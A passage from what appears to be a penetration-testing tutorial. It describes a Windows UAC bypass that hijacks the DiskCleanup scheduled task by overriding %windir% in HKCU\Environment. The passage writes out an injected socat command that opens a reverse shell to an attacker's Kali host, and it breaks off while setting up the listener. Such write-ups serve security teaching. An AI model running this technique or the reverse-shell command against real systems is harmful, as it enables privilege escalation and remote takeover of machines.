 <figure><img src="../../.gitbook/assets/image (7) (2) (4) (1).png" alt=""><figcaption></figcaption></figure>

The task can be run on-demand, executing the following command when invoked:

```
%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%
```

Since the command depends on environment variables, we might be able to inject commands through them and get them executed by starting the DiskCleanup task manually.

Luckily for us, we can override the %windir% variable through the registry by creating an entry in HKCU\Environment. If we want to execute a reverse shell using socat, we can set %windir% as follows (without the quotes):

```
"cmd.exe /c C:\tools\socat\socat.exe TCP:$KALI:4445 EXEC:cmd.exe,pipes &REM "
```

At the end of our command, we concatenate "\&REM " (ending with a blank space) to comment whatever is put after %windir% when expanding the environment variable to get the final command used by DiskCleanup. The resulting command would be (be sure to replace your IP address where needed):

```
cmd.exe /c C:\tools\socat\socat.exe TCP:$KALI:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%
```

Where anything after the "REM" is ignored as a comment.

## Putting it all together&#x20;

Let's set up a listener for a reverse shell with&#x20;

**Kali**
